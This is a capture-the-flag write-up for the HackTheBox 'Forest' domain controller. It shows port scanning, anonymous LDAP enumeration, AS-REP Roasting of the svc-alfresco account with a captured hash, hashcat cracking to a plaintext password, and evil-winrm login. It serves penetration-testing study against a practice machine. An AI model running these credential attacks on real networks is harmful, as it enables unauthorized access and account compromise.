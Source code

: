 # Forest

## Overview

A domain controller created by _HackTheBox_ with Exchange server installed in a minimal AD domain.

The machine covers the following techniques:

* [AS-REP Roasting](../../../windows/auth/kerberos/as-rep-roasting-attack.md)
* [DCSync attack](../../../windows/auth/credential/credential\_dumping.md#dcsync-attack)
* Bloodhound

## Reconnaissance

### Port Scanning

We use `nmap` to figure out what services are running on the target.

```bash
$ nmap -Pn -n -sS -p- -T4 --min-rate 1000 <IP>
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
```

The results reveal the following information.

* port 88 tells us that this should be a _domain controller_
* port 389 allows us to fetch information about target AD domain via LDAP
* port 5985 may allow us access the target using _WinRM_ later

### LDAP

It seems that we can fetch information about the target AD domain via [LDAP anonymous authentication](../../../windows/ad/adds/ldap.md#anonymous-authentication).

By querying the RootDSE information, we see that the target domain name is `htb.local.`

```bash
$ ldapsearch -H ldap://<IP> -x -b '' -s base
```

## Initial Access

### Alfresco

From the information gathered through anonymous LDAP query, we found a _service account_ named `svc-alfresco`.

To expand our knowledge of the technology used by our client, the next thing to do is to find what third-party service, which shall be AD-integrated, related this account.

By Google, we found a product named [Alfresco Content Services](https://docs.alfresco.com/content-services/7.0).

From the configuration, we see that the account related to this service has been configured with _Kerberos pre-authentication_ disable.

<figure><img src="../../../images/forest_alfresco.png" alt=""><figcaption><p><a href="https://docs.alfresco.com/process-services/latest/config/authenticate/#configuration-steps">Alfresco - Configuration Steps</a></p></figcaption></figure>

This allows us to get the TGT for this account `svc-alfresco`, and conduct the [_AS-REP Roasting_ attack](../../../windows/auth/kerberos/as-rep-roasting-attack.md) to retrieve the account password from the requested TGT.

### AS-REP Roasting

We use the `Impacket-GetNPUsers` to get the TGT ticket for the account `svc-alfresco`:

```bash
$ impacket-GetNPUsers htb.local/svc-alfresco -no-pass -format hashcat
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:25dea275afcce8003c360ab40353f112$1c819f4f545ec54a5b988c5402709abffb17105fd2e5ab6a47b0321fd90307767aef2e00f6504fc2eaf643c4884614ca62b6d938a45b19c87893b0bca1d1dfc3e628c97462de1625b8d492f0ad25932d37bc84e095a6bddcb6230d53066fa0c165a77a150e2837cf257c898e71c2fbb16411e905718cf59262d1d15159537a0c49c31b7f64d89f128e20a2becb4f0e47fd0b4ca10440539ca6038e5d14da2a8be833e857bc868afff34011a9ae150c4b296866c8dbddd48f9208bc324208b251af8ff35f7a205666166c8208c59cff2de2d9994aa67fc4e7eb6aac4b0cd9b1ec02bced2feb3a
```

Refer to [AS-REP Roasting - Impacket](../../../windows/auth/kerberos/as-rep-roasting-attack.md#impacket) for more information.

We can crack the hash using `hashcat` with mode 18200:

```bash
$ hashcat --example|grep -i 'as.*rep' -B2

MODE: 18200
TYPE: Kerberos 5, etype 23, AS-REP
HASH: $krb5asrep$23$user@domain.com:3e156ada591263b8aab0965f5aebd837$007497cb51b6c8116d6407a782ea0e1c5402b17db7afa6b05a6d30ed164a9933c754d720e279c6c573679bd27128fe77e5fea1f72334c1193c8ff0b370fadc6368bf2d49bbfdba4c5dccab95e8c8ebfdc75f438a0797dbfb2f8a1a5f4c423f9bfc1fea483342a11bd56a216f4d5158ccc4b224b52894fadfba3957dfe4b6b8f5f9f9fe422811a314768673e0c924340b8ccb84775ce9defaa3baa0910b676ad0036d13032b0dd94e3b13903cc738a7b6d00b0b3c210d1f972a6c7cae9bd3c959acf7565be528fc179118f28c679f6deeee1456f0781eb8154e18e49cb27b64bf74cd7112a0ebae2102ac
```

and get the password `s3rvice` for the account `svc-alfresco.`

<figure><img src="../../../.gitbook/assets/圖片 (3) (2).png" alt=""><figcaption></figcaption></figure>

### WinRM

We can now login to the target host with the credential we got via [WinRM](../../../windows/execution/remote/winrm.md).

```bash
$ evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
```
